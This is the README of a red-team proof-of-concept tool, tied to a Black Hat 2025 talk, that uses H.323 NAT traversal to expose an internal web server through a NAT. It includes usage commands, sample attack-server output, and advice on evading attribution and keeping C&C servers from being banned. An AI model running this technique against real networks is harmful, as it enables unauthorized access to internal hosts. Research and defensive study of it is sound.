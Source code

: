 # Simple H.323 NAT Traversal

A tool that opens a temporary DNAT using H.323 NAT Traversal to create a breakpoint for red teaming under NAT environments!

## Reference

- This is a PoC code for Black Hat USA 2025 Briefing: [From Spoofing to Tunneling: New Red Team's Networking Techniques for Initial Access and Evasion](https://www.blackhat.com/us-25/briefings/schedule/#from-spoofing-to-tunneling-new-red-teams-networking-techniques-for-initial-access-and-evasion-44678) 
- This idea is derived from [NAT slipstreaming](https://samy.pl/slipstream) by [@samykamkar](https://twitter.com/samykamkar)

## Usage

1. **Start the attack server** (example IP: `9.9.9.9`):

    ```bash
    python3 server.py 
    Listening on 0.0.0.0:1720 ...
    ```

2. **Send an H.323 NAT Traversal packet**  
   - NAT public IP: `2.2.2.2`
   - Compromised device internal IP: `192.168.1.2`
   - Internal web server IP: `192.168.1.3`

    ```bash
    python3 main.py -d <next_target_ip> -p <next_target_port> -s <attack_public_ip>
    python3 main.py -d 192.168.1.3 -p 8080 -s 9.9.9.9
    ```

3. **Server output:**

    ```
    Listening on 0.0.0.0:1720 ...
    Connected by: 2.2.2.2:41658
    Received Remote IP (from payload): 2.2.2.2
    Received Remote Port (from payload): 8080
    ```

4. **Now you can directly access** `http://192.168.1.3:8080/` **via** `curl http://2.2.2.2:8080/`

5. **Logs from 192.168.1.3:**

    ```
    python3 -m http.server 8080
    Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
    9.9.9.9 - - [07/Jun/2025 10:10:08] "GET / HTTP/1.1" 200 -
    ```
    > You will see that the logs show requests coming from 9.9.9.9, making it difficult to associate them with 192.168.1.2.
    > The only way to relate them is that both 192.168.1.2 and 192.168.1.3 have communicated with 9.9.9.9.

## Best Practices
- Use different IP C&C servers for `192.168.1.2` and `192.168.1.3` to prevent 9.9.9.9 from being banned and losing the C&C connection.

## Demo video
- [YouTube](https://youtu.be/0mvEMlD_oa8)

## Disclaimer
This project is intended for educational and research purposes only. Any actions and/or activities related to this code are solely your responsibility. The authors and contributors are not responsible for any misuse or damage caused by this project. Please ensure that you have proper authorization before testing, using, or deploying any part of this code in any environment. Unauthorized use of this code may violate local, state, and federal laws.

## License
This project is licensed under the terms of the MIT license.
